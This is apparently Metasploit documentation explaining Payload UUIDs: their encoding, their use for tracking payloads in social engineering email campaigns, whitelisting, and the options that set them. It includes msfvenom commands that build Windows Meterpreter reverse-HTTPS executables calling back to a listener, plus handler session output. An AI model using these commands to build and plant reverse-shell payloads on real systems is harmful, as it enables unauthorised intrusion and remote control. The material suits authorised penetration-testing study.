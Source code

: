
In mid-2015, a new feature was added to many HTTP and TCP Metasploit payloads: Payload UUIDs. A Payload UUID is a 16-byte value that encodes an 8-byte identifier, a 1-byte architecture ID, a 1-byte platform ID, a 4-byte timestamp, and two additional bytes for obfuscation. The [source code comments](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/payload/uuid.rb) go into more detail.

In the case of HTTP payloads, the 16-byte UUID value is encoded in [base64url](https://tools.ietf.org/html/rfc4648#section-5) format resulting in a 22-byte string. This value is always placed in the beginning of the URL used by the payload. TCP payloads send the 16-byte raw value over the socket once a connection is established.

The goal of Payload UUIDs is three-fold:
 * Uniquely identify a generated payload. This is important when running social engineering campaigns to identify what specific payload a target executed. If an email campaign resulted in one user forwarding a payload to another user before it was executed, this can be determined by reviewing the UUID in the session listing.
 * Drop connections that do not match known UUIDs. This allows a listener to be setup that only allows known sessions to connect, which is important when running internet-facing payload handlers.
 * Enable universal handlers. The embedded platform and architecture identifiers allow the listener to determine what type of stage to send back to a stager. This will eventually allow for a single listener to be used with multiple exploits, even those that target different platforms and architectures.

### Specifying the UUID

Although Payload UUIDs are normally random, it is possible to specify a static UUID value using the ```PayloadUUIDRaw``` option. This option takes a 8-byte hex string, such as "0011223344556677". For example:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDRaw=4444444444444444 -f exe -o payload.exe
```

Instead of specifying a static UUID as the raw 8-byte value, it is also possible to derive a static UUID using an arbitrary-length string using the PayloadUUIDSeed option:
```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDSeed=ShellsAreDelicious -f exe -o payload.exe
```

### Tracking the UUID

Payload UUIDs are enabled by default, but are not tracked unless the ```PayloadUUIDTracking``` option is set to ```true```. Setting this option causes a new entry to be created in ```~/.msf4/payloads.json``` when any UUID-enabled payload is generated. It is also possible to create a local-only name for a given UUID using the ```PayloadUUIDName```. The example below will create a new registered payload with a custom name:

```
$ ./msfvenom -p windows/meterpreter/reverse_https LHOST=example.com LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=EmailCampaign20150101 -f exe -o payload.exe

$ cat ~/.msf4/payloads.json
{
  "68017d72958c40f6": {
    "arch": "x86",
    "platform": "windows",
    "timestamp": 1435277049,
    "payload": "payload/windows/meterpreter/reverse_https",
    "datastore": {"AutoLoadStdapi":true,"AutoRunScript":"","AutoSystemInfo":true,"AutoVerifySession":true,"AutoVerifySessionTimeout":30,"EXITFUNC":"process","EnableStageEncoding":false,"EnableUnicodeEncoding":false,"HttpUnknownRequestResponse":"\u003Chtml\u003E\u003Cbody\u003E\u003Ch1\u003EIt works!\u003C/h1\u003E\u003C/body\u003E\u003C/html\u003E","IgnoreUnknownPayloads":false,"InitialAutoRunScript":"","LHOST":"127.1.1.1","LPORT":4444,"MeterpreterServerName":"Apache","MeterpreterUserAgent":"Mozilla/4.0 (compatible; MSIE 6.1; Windows NT)","OverrideRequestHost":false,"PAYLOADUUIDNAME":"EmailCampaign20150101","PayloadProxyPort":0,"PayloadProxyType":"HTTP","PayloadUUIDTracking":true,"PrependMigrate":false,"ReverseListenerBindPort":0,"SessionCommunicationTimeout":300,"SessionExpirationTimeout":604800,"SessionRetryTotal":3600,"SessionRetryWait":10,"StageEncoderSaveRegisters":"","StageEncodingFallback":true,"StagerRetryCount":10,"StagerURILength":0,"StagerVerifySSLCert":false,"VERBOSE":false},
    "name": "EmailCampaign20150101",
    "urls": [
  "/aAF9cpWMQPb-3f_cq1FoJA040uMw26kAnvroJdztpVzDrNpqbpT7t3DyYy0cR2TyQE87XxHgIOKiYwP2FJNlNjrBXWQNiGWtzUK1ueJ0DyFjCXmULVo_gGrvi"
]
}
}
```

Once this payload is launched, the output of the ```sessions -l -v``` command will show the UUID, whether or not the UUID is registered, and any locally-assigned name of the UUID:
```
msf exploit(handler) > run -j
[*] 127.0.0.1:36235 (UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z) Staging Native payload ...
[*] Meterpreter session 1 opened (127.1.1.1:4444 -> 127.0.0.1:36235) at 2015-06-25 17:12:40 -0700

msf exploit(handler) > sessions  -l -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: fang\hdm @ fang
      Tunnel: 127.1.1.1:4444 -> 127.0.0.1:36235 (127.0.0.1)
         Via: exploit/multi/handler
        UUID: 68017d72958c40f6/x86=1/windows=1/2015-06-26T00:04:09Z
   MachineID: 1fd541d2c4278e2d0c1b02f17f142f2b
     CheckIn: 1s ago @ 2015-06-25 17:12:47 -0700
  Registered: Yes - Name="EmailCampaign20150101"
  ```

### Whitelisting UUIDs

The ```~/.msf4/payloads.json``` file can also be used as a whitelist. This makes it possible to run a listener on a common port on a public IP address without the Metasploit Framework instance being flooded with bogus sessions. To enable whitelisting, set the ```IgnoreUnknownPayloads``` option to ```true``` in the handler instance. Any incoming request that does match both a registered Payload UUID and one of the pre-generated URLs will be ignored. The ```payloads.json``` file can be copied between Metasploit Framework instances and even hand-edited while the framework is running.

